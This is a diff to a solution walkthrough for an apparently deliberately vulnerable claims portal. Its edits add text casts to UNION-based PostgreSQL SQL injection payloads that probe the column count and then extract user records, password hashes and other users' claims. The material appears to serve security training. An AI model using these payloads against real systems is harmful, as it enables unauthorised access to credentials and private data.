

Before and after one commit to WrathScythe/Claim-Submission-Portal, a Markdown page: solutions/sql_injection.md, 2 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/solutions/sql_injection.md
+++ b/solutions/sql_injection.md
@@ -81,7 +81,7 @@ Note the opening parenthesis `(` before `title`. The injection payload must **cl
 Test with:
 
 ```
-x') UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 --
+x') UNION SELECT 1::text,2::text,3::text,4::text,5::text,6::text,7::text,8::text,9::text,10::text,11::text,12::text --
 ```
 
 > **Important:** Make sure to include a trailing space after `--`. PostgreSQL requires it for the comment to be valid.
@@ -93,7 +93,7 @@ If the page loads without a "Query error" flash message, the column count is cor
 Enter the following payload in the search box:
 
 ```
-x') UNION SELECT id, username, email, username, role, 0.0, role, created_at, created_at, NULL, NULL, NULL FROM users --
+x') UNION SELECT id::text, username, email, username, role, '0', role, created_at::text, created_at::text, NULL::text, NULL::text, NULL::text FROM users --
 ```
 
 This maps user data to the columns the template renders:
@@ -111,7 +111,7 @@ This maps user data to the columns the template renders:
 The password hash column cannot be placed in the Amount position (`row[5]`) because the template tries to format it as a float (`"%.2f"|format(row[5])`). Use this separate payload to extract hashes:
 
 ```
-x') UNION SELECT id, username, email, password_hash, created_at::text, NULL, NULL, password_hash, NULL, NULL, NULL, NULL FROM users --
+x') UNION SELECT id::text, username, email, password_hash, created_at::text, NULL::text, NULL::text, password_hash, NULL::text, NULL::text, NULL::text, NULL::text FROM users --
 ```
 
 This places `password_hash` in the `additional_details` position (`row[7]`), which renders as plain text in the Submitted column.
@@ -121,7 +121,7 @@ This places `password_hash` in the `additional_details` position (`row[7]`), whi
 ### Step 6 — Extract all claims from other users
 
 ```
-x') UNION SELECT id, user_id, claim_type_id, title, description, amount, status, additional_details, created_at, updated_at, reviewed_by, review_notes FROM claims WHERE user_id != 1 --
+x') UNION SELECT id::text, user_id::text, claim_type_id::text, title, description, amount::text, status, additional_details, created_at::text, updated_at::text, reviewed_by::text, review_notes FROM claims WHERE user_id != 1 --
 ```
 
 This returns claims belonging to all other users.
````
